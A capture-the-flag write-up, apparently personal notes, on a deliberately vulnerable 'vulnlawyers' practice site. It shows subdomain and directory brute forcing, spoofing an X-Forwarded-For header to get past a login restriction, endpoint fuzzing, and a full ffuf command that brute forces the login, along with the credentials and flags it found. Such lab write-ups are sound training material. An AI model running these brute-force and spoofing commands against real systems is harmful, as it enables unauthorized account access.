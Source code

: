
This was the link:
`http://39sibnbe.vulnlawyers.co.uk/`

the basic approach is to look around , look into the page source :
it's not much there but a small link with the directory /images/ there
![[Pasted image 20230611144205.png]]

when we visit the /images/ we get 403 forbidden
so we need another way in 
starting the directory bruteforce

we get the result:
![[Pasted image 20230611144541.png]]
also trying a subdomain finding:
`dnsrecon -d vulnlawyers.co.uk -D subdomains.txt -t brt`
![[Pasted image 20230611181703.png]]
this is what the challenge said so subdomain bruteforcing on both:
htnm7qlo.vulnlawyers.co.uk and vulnlawyers.co.uk
and:
![[Pasted image 20230611181945.png]]

found a flag:
![[Pasted image 20230611181853.png]]


there's  a login func. so we check it out
![[Pasted image 20230611144636.png]]

there's a header that sends client's ip to the server XFF header:
when we apply it via curl:
![[Pasted image 20230611161044.png]]

we get the flag: `[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]`

we also get this endpoint: 
*Access to this portal can now be found here ``<a href=/lawyers-only">/lawyers-only`

when we go there: 
![[Pasted image 20230611161327.png]]
Now we had another end-point "data" , we fuzz that too:
we get an end-point named "users"
![[Pasted image 20230611182250.png]]

***
{"users":[{"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.ctf"},{"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.ctf"},{"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.ctf"},{"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.ctf"},{"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.ctf"}],"flag":"[^FLAG^25032EB0D322F7330182507FBAA1A55F^FLAG^]"}
***

handling the content and printing it in a better manner via:
`cat file.json | jq '.users[] | .name, .email'`

with the command:
`ffuf -X POST -u http://n6s2bff3.vulnlawyers.co.uk/lawyers-only-login -d "email=UFUZZ&password=PFUZZ" -w ~/temp/emails.txt:UFUZZ -w passwords.txt:PFUZZ -H "Content-type: application/x-www-form-urlencoded" -t 4 -p 0.1 -fc 401`

we can get the creds by bruteforcing our way in
*  PFUZZ: summer
* UFUZZ: jaskaran.lowe@vulnlawyers.ctf
we get another flag:
[^FLAG^7F1ED1F306FC4E3399CEE15DF4B0AE3C^FLAG^]

this is what we get:
![[Pasted image 20230611185904.png]]

